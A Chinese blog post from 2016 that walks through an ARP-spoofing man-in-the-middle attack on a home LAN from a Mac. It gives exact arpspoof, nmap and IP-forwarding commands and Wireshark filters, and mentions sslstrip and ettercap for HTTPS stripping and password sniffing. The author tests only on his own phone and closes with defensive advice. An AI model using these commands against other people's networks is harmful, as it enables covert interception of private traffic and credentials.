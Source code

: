 ```yaml
---
title: Macos进行局域网arp欺骗
date: 2016-05-10 11:09:02
tags:
---
```


之前知乎看到一篇通过手机app就能直接监听到局域网内的其他用户的数据包，并且自动抓取图片和嗅探密码的答案，觉得这样也能成功实在太夸张了。于是自己实现一下，App开发不来，就在Mac上进行好了（事实上用到的也都是别人写好的程序）

#### 安装工具

首先安装[Macport](https://www.macports.org/), 它是一个类似于apt-get和brew的一个包管理工具，通过port我们可以很方便的安装需要的各种工具。

如果安装之后发现仍然找不到port命令的，可以

~~~
export PATH=/opt/local/bin:/opt/local/sbin:$PATH
~~~

将其加入到系统路径里来。

port安装好之后就可以开始安装各种工具了

~~~
sudo port install arpspoof
sudo port install nmap
~~~

其实还有`sslstrip`和`ettercap`，不过后面两个更多的用于攻击，我们只需要体验一下中间人攻击就好了，~~事实上是ettercap安装不成功~~。

#### nmap扫描整个局域网段

直接执行命令

~~~
sudo nmap -sS 192.168.1.0/24
~~~

结果如下：

~~~
Starting Nmap 7.12 ( https://nmap.org ) at 2016-05-09 17:50 CST
Nmap scan report for 192.168.1.1
Host is up (0.0022s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
1900/tcp open  upnp
MAC Address: ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇ (Tp-link Technologies)

Nmap scan report for 192.168.1.111
Host is up (0.0062s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE
62078/tcp open  iphone-sync
MAC Address: ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇ (Apple)

Nmap scan report for 192.168.1.112
Host is up (0.000017s latency).
All 1000 scanned ports on 192.168.1.112 are closed (500) or filtered (500)

Nmap done: 256 IP addresses (3 hosts up) scanned in 51.06 seconds
~~~

其中192.168.1.1是局域网的网关，192.168.1.111是我的手机，192.168.1.112是我的本机。这是特意趁家里只有我一个人的时候扫描的，一旦有其他人接入wifi，就会出现更多的结果。

暂时不清楚这个工具的原理，有的时候不会显示手机的结果，当然一个可能的原因是iphone待机时自动断wifi，而不是工具的锅。

扫描过后就可以通过查看路由表来查看局域网内的ip信息了

~~~
~netstat -r
Routing tables

Internet:
Destination        Gateway            Flags        Refs      Use   Netif Expire
default            192.168.1.254      UGSc          323        0     en0
127                localhost          UCS             1        0     lo0
localhost          localhost          UH             28  4818622     lo0
169.254            link#4             UCS             1        0     en0
192.168.1          link#4             UCS             4        0     en0
192.168.1.207      link#4             UHLWIi          1        2     en0
192.168.1.208      link#4             UHLWIi          1        2     en0
192.168.1.250/32   link#4             UCS             1        0     en0
192.168.1.254/32   link#4             UCS             2        0     en0
192.168.1.254      ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇  UHLWIir       324       16     en0    171
192.168.1.255      link#4             UHLWbI          1       12     en0
224.0.0            link#4             UmCS            2        0     en0
224.0.0.251        ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇  UHmLWI          1        0     en0
255.255.255.255/32 link#4             UCS             1        0     en0

Internet6:
Destination        Gateway            Flags         Netif Expire
localhost          localhost          UHL             lo0
fe80::%lo0         fe80::1%lo0        UcI             lo0
fe80::1%lo0        link#1             UHLI            lo0
fe80::%en0         link#4             UCI             en0
shaobos-macbook-pr ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇  UHLI            lo0
fe80::%awdl0       link#9             UCI           awdl0
shaobos-macbook-pr ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇  UHLI            lo0
ff01::%lo0         localhost          UmCI            lo0
ff01::%en0         link#4             UmCI            en0
ff01::%awdl0       link#9             UmCI          awdl0
ff02::%lo0         localhost          UmCI            lo0
ff02::%en0         link#4             UmCI            en0
ff02::%awdl0       link#9             UmCI          awdl0
~~~
这是我在公司未扫描时的结果，可以看到只包含部分信息，但是如果`ping`一个不在表内的ip，这个新的ip就会被添加到路由表中。

通过这个步骤，我们就能知道局域网里还有哪些机器，然后我们就可以选定一个目标，开始攻击了。

#### arp欺骗
这里选用我的手机192.168.1.111进行攻击，使用`arpspoof`。

~~~
arpspoof -i en0 -t 192.168.1.111 192.168.1.1
~~~

这个命令是告诉192.168.1.111这个机器，我是192.168.1.1，也就是你的网关，你的包就发给我吧，这样我就能在我的en0上监听到来自192.168.1.111的发包了。

但是这样一来，192.168.1.111就断网了，因为它的包发给了我，而没能转发出去。这个时候手机上会出现一个比较奇怪的现象，就是微信能收到小伙伴的消息，但是却发不出去。实测有极少量的消息还是发送出去了，可能是由于我们的arp欺骗是持续反复进行的，中间的间隙导致了包还是发给了网管。但是无论如何，这个时候目标机器的网络连接是不正常的。

#### ip转发

打开ip转发功能后，就能把192.168.1.111的包转发给网管了，命令如下：

~~~
sysctl -w net.inet.ip.forwarding=1
~~~

本来以为会有各种复杂的设置，比如哪些转发，哪些不转，比如怎么转，转到哪去之类的。结果发现，打开之后，我的手机直接就能正常上网了，丝毫没有异样。~~这时，我们就能放心大胆的进行监听而不用担心被发现了~~。

#### 抓包

抓包的方法很多，最方便的还是[wireshark](https://www.wireshark.org/)。直接监听之前设置的端口en0，然后设置过滤条件`ip.src == 192.168.1.111`，然后就可以看到目标机器的各种请求了。

这里上个监听结果的图

![](/uploads/sniffer_result.png)

其中，右上角的小图是我的朋友圈截图，大图是我在手机上点开图片之后，在Mac上监听到的请求，然后在浏览器上打开的结果。如果是在看视频，则会监听到连续的视频片段，可以一段一段下载下来看到。

#### More
当然我们这里仅仅监听了目标机器发送的包，同样的原理，我们可以欺骗网关，我们才是目标机器，这样我们就能监听到双向的消息了，而且目标机器仍然能够正常上网。

在这基础上，通过`sslstrip`可以建立假的`https`链接，这样就能明文看到本来是通过`https`加密过的消息，但是这样一来，目标机器是否还能正常使用不明，有待后续尝试。

通过`ettercap`则可以方便的完成上述过程，并且自动嗅探出其中的账号密码信息，估计就是加入一些常用的账号密码字段，或者关键字来提取的吧。

#### 防范
可以看到，这个方法的杀伤力还是很可怕的，虽然伤害范围有限，但是如果应用到出租屋，宾馆这种环境中，还是非常危险的。所以在公共场合还是尽量少的链接公共wifi。

关于防范措施，要么没必要防范，比如自己家中的wifi，设好密码不让外人连就好，要么没有权限防范，比如宾馆这种，路由不归你管。如果要在自己机器这个层面上防范暂时不知道有没有什么简单的方法，windows机器可以安装360防火墙，手机不明。

所以最好的方法还是定期修改密码，所有账号都绑定手机和安全邮箱，在公共wifi不登录敏感的账号等等。

